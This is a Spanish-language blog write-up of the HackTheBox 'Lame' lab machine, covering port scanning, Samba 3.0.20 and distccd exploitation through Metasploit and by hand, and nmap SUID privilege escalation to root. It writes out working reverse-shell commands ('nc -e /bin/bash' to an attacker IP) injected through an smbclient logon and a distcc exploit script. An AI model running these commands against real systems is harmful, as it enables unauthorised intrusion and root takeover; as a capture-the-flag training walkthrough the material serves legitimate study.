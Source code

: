 ```yaml
---
layout: single
title: HackTheBox - Máquina Lame
excerpt: "Solución de la máquina Lame de Hack the Box"
date: 2021-03-18
classes: wide
header:
  teaser: /assets/images/htb/lame/lame.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Metasploit
---
```


<p align="center">
<img src="/assets/images/htb/lame/lame.png">
</p>

# Enumeración

Lanzamos un escaneo para ver los puertos que tiene abiertos y después lanzamos para obtener versiones y scripts básicos de nmap.

```bash
nmap -sS --min-rate 5000 -p- --open -T5 -v -n -Pn -oG allPorts 10.10.10.3

nmap -sV -sC -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

Y obtenemos el siguiente resultado:

```text
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

# Explotación
Cuando empecé con esta máquina de HTB usé Metasploit por no tener experiencia. Cuando me propuse crear este contenido también empece a ver vídeos y streams de gente que se dedica al mundo de la Ciberseguridad para adquirir conocimientos. Viendo un vídeo acerca de esta máquina, vi que también se podía hacer de forma manual por lo que también lo voy hacer de esta forma para adquirir ese conocimiento.

Después de analizar el FTP mediante el acceso anónimo y ver que no hay nada disponible, analizamos *samba y el software distcc* como posible vector de ataque.

## Automática (Metasploit)

Buscamos la versión de samba 3.0.20 con searchsploit.

```bash
searchsploit samba 3.0.20
```

Y obtenemos el siguiente resultado:

```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                            | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
```

Abrimos metasploit y usamos `use exploit/multi/samba/usermap_script`. Configuramos las opciones con `show options` y el payload `show payload` (`cmd/unix/reverse`), el siguiente paso es ejecutar con `exploit` y obtenemos la reverse shell. Ya solo quedaría obtener la flag de usuario y de root, ya que de este modo somos root.

## Explotación Manual

Como he mencionado antes esta parte la vi en el writeup de s4vitar, por lo que voy a reproducirla para aprender de forma manual.

### Samba

Buscamos un script mediante `searchsploit samba 3.0 command execution` y obtenemos lo siguiente:

```bash
searchsploit samba 3. command execution
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)     | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------
```

Mediante `smbmap -H 10.10.10.3 ` vemos los permisos de los recursos compartidos de la máquina:

```bash
smbmap -H 10.10.10.3      
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Nos conectamos al directorio /tmp `smbclient //10.10.10.3/tmp --option="client min protocol=NT1" -N` utilizando null sesión, también hay que añadirle el parámetro --option ya que si no lo pones te saltara un error de autenticación.

Analizando el script vemos que hace un login con el siguiente usuario:

```bash
`username = "/=`nohup " + payload.encoded + "`"`
```

Estando conectado al recurso compartido, lanzamos un login con el siguiente formato para poder obtener una conexión vía netcat a nuestra máquina.

```bash
smb: \> logon "/=`nohup nc -e /bin/bash <ip_atacante> <puerto>`"
Password: (Damos enter)
```

### Distcc

Si hacemos un `searchsploit distcc` nos sale lo siguiente:

```bash
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)     | multiple/remote/9915.rb
--------------------------------------------------------------------------------------------- ---------------------------------
```
Como se puede ver hay un script pero es a través de Metasploit, para hacerlo de forma manual con [exploit github](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

Ejecutamos con un whoami para probar:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c whoami
```

Cuando yo hice la prueba me daba el siguiente error:

```bash
[OK] Connected to remote service
a bytes-like object is required, not 'str'
[KO] Exception Raised
```

Por lo que tuve que editar para añadir el str.encode() y el decode en la siguientes variables:

<p align="center">
<img src="/assets/images/htb/lame/distcc_exploit.png">
</p>

Cuando el lanzamiento ha sido satisfactorio obtenemos por pantalla el usuario `daemon`, el siguiente paso es lanzar una shell hacia nuestra máquina:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash <ip> <puerto> &'
```

<span style="color:#d7f798">[IMPORTANTE] El nohup se pone para que cuando se lanza un exploit que te da una sesión y se cierra, se quede en segundo plano en otro proceso. Cuando obtenemos la reverse shell hacemos el tratamiento de la shell.</span>

Desde la carpeta home hacemos la búsqueda de la flag de user.txt y la mostramos con:

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

# Escalada de privilegios desde distcc

Para escalar privilegios en esta máquina hacemos uso de los suids:

```bash
find \-perm -4000 2>/dev/null
```
Para esta máquina vamos a usar <b>./usr/bin/nmap</b> para elevar privilegios, para ello usamos [GTFOBINS](https://gtfobins.github.io) para obtener una shell con el binario nmap. 

En GTFOBINS nos dice que hay dos maneras pero mirando la versión de nmap, se puede utilizar la b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands

```bash
daemon@lame:/$ nmap --version

Nmap version 4.53 ( http://insecure.org )
```

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Y ya nos queda ver la flag de root.
